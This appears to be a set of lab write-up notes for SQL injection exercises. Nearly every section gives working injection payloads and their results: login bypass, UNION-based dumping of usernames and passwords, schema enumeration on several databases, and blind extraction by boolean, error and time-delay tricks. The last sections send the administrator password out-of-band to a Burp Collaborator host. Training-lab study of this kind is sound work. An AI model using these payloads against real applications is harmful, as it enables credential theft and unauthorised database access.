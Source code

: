 # SQL injection

## Retrieving hidden data

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```
/filter?category=Food+%26+Drink'+OR+1=1--
```

## Subverting application logic

### SQL injection vulnerability allowing login bypass

Username: `administrator'--`

## Retrieving data from other database tables

### Determining the number of columns required in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+null--            500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null--       500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null,null--  200 OK
```

### Finding columns with a useful data type in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+'rn4IRy',null,null--   500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,'rn4IRy',null--   200 OK
```

### Using an SQL injection UNION attack to retrieve interesting data
```
?category=Pets'+UNION+SELECT+username,password+FROM+users--
```
Credentials retrieved: `administrator` / `sip8ds`

### Retrieving multiple values within a single column
```
?category=Gifts'+UNION+SELECT+null,username+||+'~'+||+password+FROM+users--

wiener~peter
administrator~5v82nt
carlos~montoya
```

## Examining the database

### SQL injection attack, querying the database type and version on Oracle
```
?category=Gifts'+UNION+SELECT+BANNER,null+FROM+v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft
```
?category=Lifestyle'+UNION+SELECT+null,@@version--+
```

### SQL injection attack, listing the database contents on non-Oracle databases
```
?category=Gifts%27+UNION+SELECT+version(),null--+
PostgreSQL 11.2 (Debian 11.2-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

?category=Gifts%27+UNION+SELECT+TABLE_SCHEMA,TABLE_NAME+FROM+information_schema.tables--+
public / users_xsxvki

?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name=%27users_xsxvki%27--+
username_difdky
password_gjwzbs

?category=Gifts%27+UNION+SELECT+username_difdky,password_gjwzbs+FROM+users_xsxvki--+
administrator / niuv95
```

### SQL injection attack, listing the database contents on Oracle
```
https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286
?category=Gifts%27+UNION+SELECT+null,TABLE_NAME+FROM+all_tables--
USERS_TUEJNQ

https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm
?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+all_tab_columns+WHERE+TABLE_NAME=%27USERS_TUEJNQ%27--
USERNAME_GIBQLT
PASSWORD_EZJBQY

?category=Gifts%27+UNION+SELECT+USERNAME_GIBQLT,PASSWORD_EZJBQY+FROM+USERS_TUEJNQ--+
administrator / lpm52k
```

## Blind SQL injection vulnerabilities

### Blind SQL injection with conditional responses

Determine password length:
```
TrackingId=a'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)=6--;
```

Use Burp Suite Intruder (payload Brute-force `a-z0-9`) to get password one character at a time.
If the server response contains `Welcome back` then we know we guessed the character correctly.
```
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='§a§'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,2,1)='§a§'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,3,1)='§a§'--;
...
```
Password is: `nqk8kg`

### Blind SQL injection with conditional errors

Determine password length:
```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+length(password)>6)+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```

Use Burp Suite Intruder to get password one character at a time.
If the server responds with HTTP 500 then we know we guessed the character correctly.
This time I used attack type `Cluster bomb` and set 2 payloads right away - the first payload was a simple
number iterator and the second payload was Brute-force `a-z0-9`.
```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,§1§,1)='§a§')+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```
Password is: `2req0w`

### Blind SQL injection with time delays
```
TrackingId=x'||pg_sleep(10)--
```

### Blind SQL injection with time delays and information retrieval

Determine password length:
```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+length(password)=6)+then+pg_sleep(5)+else+null+end+from+users--;
```

Use Burp Suite Intruder to get password one character at a time.
If the server responds in more than 10 secs then we know guessed the character correctly.
```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,§1§,1)='§a§')+then+pg_sleep(10)+else+null+end+from+users--;
```

Password is: `2req0w`
```
bu15v4
```

### Blind SQL injection with out-of-band interaction

```
TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//x.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Blind SQL injection with out-of-band data exfiltration
```
TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.ttqw3(...).burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--;
```
Burp Collaborator interaction: `gd61dj.ttqw3gbwcea26g1r6yl4nup1lsrif7.burpcollaborator.net.`
